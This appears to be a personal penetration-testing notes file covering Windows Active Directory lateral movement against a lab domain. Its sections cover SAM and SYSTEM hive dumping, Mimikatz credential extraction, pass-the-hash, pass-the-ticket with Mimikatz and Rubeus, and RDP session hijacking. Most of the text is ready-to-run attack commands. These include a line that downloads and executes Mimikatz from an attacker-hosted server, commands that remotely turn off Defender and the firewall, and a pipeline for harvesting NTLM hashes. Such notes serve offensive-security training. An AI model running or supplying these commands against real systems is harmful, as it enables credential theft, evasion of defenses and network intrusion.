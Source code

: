 | SAMPLE DC RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | DC |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | dc.pentesting.local |

| SAMPLE AD RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | AD |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | ad.pentesting.local |

#### 74 Lateral Movement Dumping SAM and SYSTEM

>NEEDS LOCAL ADMIN USER ACCESS

>Files are found in C:\Windows\System32\config

>Cannot just be copy / pasted

>SYSTEM file acts as decryption key to hashes in SAM

cd to good working directory with write privs.

```
cd %TEMP%/Tools
```

```
reg save HKLM\sam sam
```

```
reg save HKLM\system system
```

Try using hfs.exe (HTTP File Server) to easily host files for extraction on Windows.
https://www.rejetto.com/hfs/?f=dl
May need RDP access?

wget files from kali box.

crack in kali with samdump2
```
samdump2 system sam
```

[[Hashcat#NTLM]]

#### 75 Lateral Movement SAM & LSA w/ MimiKatz

>NEEDS LOCAL ADMIN USER ACCESS

```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1
```

Assuming you have mimikatz.ps1 in temp/Tools directory.
```
cd %TEMP%/Tools
```

![[2._Powershell  Bypass#Execution bypass]]

```
Import-Module .\Invoke-Mimikatz.ps1
```

```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords full" "lsadump::sam" "exit"'
```

LOOK FOR RID 500!!  USE THAT USERNAME AND HASH FOR [[#76 Lateral Movement PTH w MimiKatz]]


```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords full" "lsadump::sam" "exit"' | findstr /V /R /C:"[0-9A-F][0-9A-F][ ][0-9A-F][0-9A-F][ ][0-9A-F][0-9A-F][ ][0-9A-F][0-9A-F]" | findstr "Username NTLM Password" | findstr /V "null" | select-object -unique
```

#### 76 Lateral Movement PTH w/ MimiKatz

>NEEDS LOCAL ADMIN USER ACCESS
>NEEDS RDP ACCESS! SEE [[Port 3389 - RDP ~#Enabling RDP]]

Assuming you have mimikatz.ps1 in temp/Tools directory.
```
cd %TEMP%/Tools
```

![[2._Powershell  Bypass#Execution bypass]]

```
Import-Module .\Invoke-Mimikatz.ps1
```

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:$USER /domain:$NETBIOS_DOMAIN_NAME /ntlm:$NTLM /run:powershell.exe"'
```

A new PowerShell windows will appear.

```
net use $NETBIOS_DOMAIN_NAME
```

```
klist
```

```
.\PsExec.exe \\$NETBIOS_DOMAIN_NAME cmd.exe
```

Try different hostnames found from Domain Enumeration.
```
Invoke-Command -Computername $HOSTNAME -ScriptBlock(whoami)
```

```
Invoke-Command -Computername $HOSTNAME -ScriptBlock(whoami; hostname; whoami /groups)
```

Execute commands remotely:
```
$sess = New-PSSession -ComputerName $HOSTNAME
```

Remotely disable real time monitoring on other host:
```
Invoke-Command -ScriptBlock(Set-MpPreference -DisableRealtimeMonitoring $true) -Session $sess
```

Remotely disable firewall on other host:
```
Invoke-Command -ScriptBlock(netsh Advfirewall set allprofiles state off) -Session $sess
```

Enter PS session on other host:
```
Enter-PSSession $sess
```

Download Invoke-Mimikatz.ps1 file from Windows victim and dump creds.
```
IEX(New-Object Net.WebClient).DownloadString("http://$HFS/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -Dumpcreds;
```

#### 77 Lateral Movement Pass The Ticket

>NEEDS LOCAL ADMIN USER ACCESS

Assuming you have mimikatz.ps1 in temp/Tools directory.
```
cd %TEMP%/Tools
```

![[2._Powershell  Bypass#Execution bypass]]

```
Import-Module .\invoke-mimikatz.ps1
```

Extract Kerberos ticket from LSA. - Expires in 10 hours by default.
```
Invoke-Mimikatz -Command '"Mimikatz::debug" "sekurlsa::tickets /export" "exit"'
```

We're looking for a Domain Admin user here.  Look for the "Ticket Granting Service" section.  Towards the end of it, it will say Saved to file:

`$KIRBI_TICKET == [FILENAME]-$USER@krbtgt-$DNS_DOMIAN_NAME.LOCAL.kirbi`

Find that same file name in the directory.  We will be using the krbtgt file.

```
Invoke-Mimikatz -Command '"MimiKatz::debug" "kerberos::ptt $KIRBI_TICKET  "exit"'
```

List all tickets:
```
klist
```

Run commands on other host:
```
dir \\$HOSTNAME\c$
```

Jump into PSSession on other host:
```
Enter-PSSession -COmputerName $HOSTNAME
```


#### 78 Lateral Movement Pass The Ticket w/ Rubeus - Not a easy as Mimikatz

Download from:
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries

List all tickets:
```
.\Rubeus.exe klist
```

Triage all current tickets:
```
.\Rubeus.exe triage
```

```
.\Rubeus.exe dump
```

Find local domain admin user > Base64EncodedTicket.  Copy the value, paste into editor, remove \r's to make it one line.

```
Rubeus.exe ptt /ticket:$BASE64_VALUE
```

#### 79 Lateral Movement Session Hijack

>NEEDS LOCAL ADMIN USER ACCESS

Escalate to System

```
PsExec.exe -s \\localhost cmd
```

Find user sessions, need to be in Disc STATE (NOT ACTIVE)
```
query user
```

Create a service to hijack session:

>The tscon value is the ID number of the USERNAME you wish to hijack.
The /dest value is the string listed under SESSIONNAME of the current user.
```
sc create sesshijack binpath="cmd.exe /k tscon $ID_NUMBER /dest:$SESSION_NAME"
```

Start the service:
```
net start sesshijack
```


#### 80 Lateral Movement SMB Relay Attack

>NEEDS LOCAL ADMIN USER ACCESS

Download Inveigh
https://github.com/Kevin-Robertson/InveighZero
